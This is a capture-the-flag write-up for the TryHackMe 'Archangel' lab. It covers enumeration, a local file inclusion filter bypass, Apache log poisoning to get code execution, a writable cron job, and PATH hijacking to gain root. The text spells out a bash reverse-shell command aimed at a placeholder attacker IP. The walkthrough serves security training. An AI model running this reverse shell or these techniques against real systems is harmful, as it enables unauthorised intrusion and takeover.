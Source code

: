 ```yaml
---
layout: post
title: THM Archangel
---
```


This is a write up for the room [Archangel](https://tryhackme.com/room/archangel) from [tryhackme](https://tryhackme.com).

<!-- MarkdownTOC -->

- [Initial Enumeration](#initial-enumeration)
- [Exploitation](#exploitation)
- [Local Enumeration](#local-enumeration)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Initial Enumeration

`Nmap` results

![nmap](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc1.png)

We have `Ubuntu` as OS.

- Port 22 OpenSSH 7.6p1
- Port 80 Apache 2.4.29

The server on port 80 shows a web page where we can see this email direction

![email](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc2.png)

Before adding the domain to `/etc/hosts` we check the result `/flags` obtained with `gobuster`.

![flags](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc3.png)

That `flag.html` file just redirects us to a youtube music video.

Once we add the domain to our `hosts` file if we navigate to the site we have this page.

![web](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc4.png)

Running `gobuster` from this domain we find the `/test.php` page. This is supposed to be vulnerable to local file inclusion. Playing with the examples [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion) we manage to download the `php` code of the application, `base64` encoded.

![b64](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc5.png)

Decoding the `base64` string we see the code.

![php](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc6.png)

## Exploitation

Here we find the second flag and we can see the filters the application has. As we can see we are forced to use the `view` parameter, the `/var/www/html/development_testing` has to be part of the crafted url and `../..` can't be included.

First we find a way to bypass the `../..` filter and test it reading `/etc/passwd`

![test1](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc7.png)

![testr1](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc8.png)

Now to turn the `lfi` vulnerability into remote code execution we are going to use log poisoning as explained [here](https://ironhackers.es/en/tutoriales/lfi-to-rce-envenenando-ssh-y-apache-logs/).

We verify we can access the apache logs

![apache](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc9.png)

![apache](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc10.png)

Next we are going to poison the logs including a `php` string into the `User-Agent` field of the request.

![poison](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc11.png)

And we test we have code execution adding `&cmd=id` at the end of the query.

![rce](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc12.png)

![id](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc13.png)

Now we change the payload

````shell
bash -c 'bash -i >&/dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'
````

But url enconded

![shell](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc14.png)

And we gain a shell

![shell](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc15.png)

## Local Enumeration

The only user on the machine is `archangel`, we can read the user flag from his home directory. We have a `passwordbackup` file but is just a link to the same youtube video we saw before.

![passback](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc16.png)

We have a `cronjob` executing every minute as the user `archangel`

![crontab](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc17.png)

This executable is writable by everyone so we can modify it to gain a shell into the machine as the `archangel` user.

![shell2](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc18.png)

![shell2](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc19.png)

## Privilege Escalation

Now we can access the `secret` directory and grab the user2flag. We also have a backup executable file, owned by `root` and executable by everyone. If we try to execute it we have

![backup](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc20.png)

We modify the `PATH` environment variable and create a `cp` executable to spawn a shell as `root`.

![root](https://raw.githubusercontent.com/TTWabbit/ttwabbit.github.io/master/static/img/_posts/archangel/arc21.png)